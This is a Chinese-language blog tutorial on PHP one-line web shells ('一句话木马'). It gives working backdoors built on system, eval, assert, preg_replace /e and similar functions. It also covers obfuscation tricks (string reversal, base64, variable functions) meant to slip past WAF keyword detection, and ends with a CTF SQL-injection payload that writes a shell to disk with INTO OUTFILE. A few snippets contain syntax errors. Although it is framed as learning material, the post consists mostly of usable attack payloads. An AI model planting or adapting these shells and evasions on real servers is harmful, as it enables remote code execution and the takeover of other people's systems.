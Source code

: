 +++
title = "一句话木马入门"
date = 2025-06-01
updated = 2025-06-09
[taxonomies]
categories = ["web"]
tags = ["game", "network"]
[extra]
lang = "zh"
toc = true
comment = true
math = true
mermaid = true
reaction = true
copy = false
+++

### 一句话木马

一句木马短小精悍，而且功能强大，隐蔽性非常好，在入侵中始终扮演着强大的作用。黑客多在注册信息的电子邮箱或者个人主页等中运行该木马。

顾名思义是执行恶意指令的木马，通过技术手段上传到指定服务器上并可以正常访问。

举一个小栗子：

```php
<?php system($_GET['a']);?>
```

可以通过URL参数执行系统命令

http://localhost:3000/hit.php?a=whoami

比如传入whoami查看当前用户

还有ipconfig

![image-20250609225843148](/imgs/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%AE%80%E5%8D%95%E5%AD%A6%E4%B9%A0.assets/image-20250609225843148.png)

再换成post,使用hackbar

```php
<?php system($_POST['a']);?>
```

![image-20250609230351762](/imgs/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%AE%80%E5%8D%95%E5%AD%A6%E4%B9%A0.assets/image-20250609230351762.png)

看下面的代码，这个是php一句话木马的代码

```php
<?php eval(@$_POST['abc']); ?>
```

这段PHP代码的功能是执行通过POST请求传递过来的参数，我用post提交什么，服务器执行什么，也是说把这个代码上传上去之后，我让你服务器干啥干啥，甚至我让你服务器删除所有文件都会删除

具体来说，`eval(@$_POST['abc']);` 原理是

- `eval()` 是PHP的一个内置函数，用于执行字符串作为PHP代码。
- `@` 是一个操作符，用于抑制可能的错误消息。在这里，它抑制了`$_POST['a']`可能引发的错误（例如，如果`$_POST['a']`不存在或者不是有效的代码字符串）。
- `$_POST['a']` 是一个从HTTP POST请求中获取的变量。它应该是一个字符串，该字符串包含要执行的PHP代码。

# 其他函数

## `assert`

```php
<?php @assert($_POST['shell']);?>
```

## `create_function`

```php
<?php
$fun = @create_function('',$_POST['shell']);
@$fun();
?>
```

## `call_user_func` 回调函数

```php
<?php @call_user_func(assert,$_POST['shell']);?>
```

`call_user_func` 函数的第一个参数调用其他函数，第二个参数为该调用函数传参。一些被waf拦截的的可配合这个函数绕过waf。

## `preg_replace`

```php
<?php
@preg_replace("/abcde/e",$_POST['shell'],"abcdefg");
?>
```

该函数利作用是使用正则表达式替换符合条件的字符串，但该函数可执行命令。函数的第一个参数是正则表达式，按照 PHP 的格式，表达式在`/`间，若在`/`末尾加 `e`，这个函数的第二个参数就会被当作代码执行。

## `file_put_contents`

```php
<?php
$test=<?php $a=$_POST['shell'];assert($a)?>;
@file_put_contents("Biu.php,$test")
?>
```

利用函数生成木马文件，第一个参数是文件名，第二个参数是文件内容

# 一句话木马绕过waf

WAF （Web 应用防火墙）用于保护 Web 应用不被各类应用层攻击,如跨站脚本(XSS)、SQL注入、cookie中毒等，通常以关键字判断是否为一句话木马。

**本节仅是绕过一些基础的关键字查杀 WAF，更多免杀请产考：**[免杀/一句话木马(PHP)](https://xz.aliyun.com/t/9246)

## 变量函数

**变量函数(可变函数)** : 变量名后有圆括号，PHP将寻找与变量的值同名的函数，并尝试执行。**即使用变量作为函数名的函数**

**注意: eval是一个语言构造器而不是一个函数，不能被变量函数调用。**

```php
<?php
$test="assert";
@$test($_POST['shell']);
?>
```

有时需要使用大小写混淆、字符串拼接、字符串逆序等变化达到绕过

```php
<?php
$a="TR"."Es"."sA";
$b=strtolower($a);
$c=strrev($b)
@$c($_POST['shell']);
?>
```

## 可变变量

**eval不可用，与可变函数同理**

```php
<?php
$bb="assert";
$a= "bb";
@$$a($_POST['shell']);
?>
$$a = ${$a} = ${'bb'} = $bb = "assert"
```

## `str_replace` 函数

```php
<?php
$a=str_replace("Hell","","assHellert");
@$a($_POST['shell']);
?>
```

在第三个参数中查找第一个参数，并将其替换为第二个参数，这里第二个参数为空字符串，相应删除 `Hell`

## `base64_decode` 函数

```php
<?php
$a=base64_decode("YXNzZXJ0");
@$a($_POST['shell']);
?>
```

`YXNzZXJ0` 是 `assert` 的base64编码

## `parse_str` 函数

```php
parse_str("a=assert");
@$a($_POST['a']);
```

生成变量 `a` 并赋值 `assert`

## 自定义函数

```php
<?php
function fun($a){@eval($a)};
@fun($_POST['shell']);
?>
```

使用自定义函数调用`eval`

通常都是使用多个组合才能达到绕过 WAF 的目的。

在函数前加 `@` 符，可让php语句不显示错误信息，加强隐蔽性。



一道简单ctf，是ctfshow里面的：

![img](/imgs/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%AE%80%E5%8D%95%E5%AD%A6%E4%B9%A0.assets/20201202004532573.png)

可以用payload做，访问txt。当然也可以构造一句话`1'union select "<?php @eval($_POST['cmd']);?>" into outfile 'C:/phpStudy/WWW/shell.php'--+`来写入一句话木马

